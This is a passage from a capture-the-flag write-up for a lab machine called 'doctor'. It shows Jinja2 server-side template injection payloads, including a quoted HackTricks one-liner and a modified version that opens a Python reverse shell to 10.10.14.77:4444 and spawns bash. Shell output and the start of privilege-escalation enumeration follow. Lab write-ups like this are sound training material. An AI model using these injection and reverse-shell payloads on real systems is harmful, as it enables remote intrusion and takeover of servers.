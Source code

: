Unfortunately, I have to wait until the messaging system resets because it stores everything from any user and renders the 500 error.

Get all classes:
`{{ [].class.base.subclasses() }}`

Also found this on [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

This is a reverse shell paylod. I just have to add my IP address at the `s.connect((\"IP\",444))` portion with an open `netcat` listener on
port 4444 (or any port I would like) and should hopefully get shell access to machine.

>>>> _20 minutes later_ <<<<
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Modified the payload:
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.77\",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
__Changes:__
1. Changed the IP to my IP address. changed the `p=subprocess.call` to `/bin/bash`
2. Replaced "flag.txt" with the `-i` option

Got shell as:
```Console
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:~$
```

### web@doctor / PrivEsc
Checked the immediate directory:
```Console
web@doctor:~$ ls -la
total 48
drwxr-xr-x 6 web  web  4096 Sep 28  2020 .
drwxr-xr-x 4 root root 4096 Sep 19  2020 ..
lrwxrwxrwx 1 web  web     9 Jul 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 web  web   220 Jul 20  2020 .bash_logout
-rw-r--r-- 1 web  web  3771 Jul 20  2020 .bashrc
drwxr-xr-x 3 web  web  4096 Sep 22  2020 blog
-rwxrwxr-x 1 web  web   135 Jul 26  2020 blog.sh
drwxrwxr-x 5 web  web  4096 Jul 27  2020 .cache
drwxr-xr-x 4 web  web  4096 Jul 27  2020 .config
drwxrwxr-x 5 web  web  4096 Jul 26  2020 .local
-rw-r--r-- 1 web  web   807 Jul 20  2020 .profile
-rw------- 1 web  web   177 Jul 27  2020 .python_history
-rw-rw-r-- 1 web  web    66 Jul 26  2020 .selected_editor
```
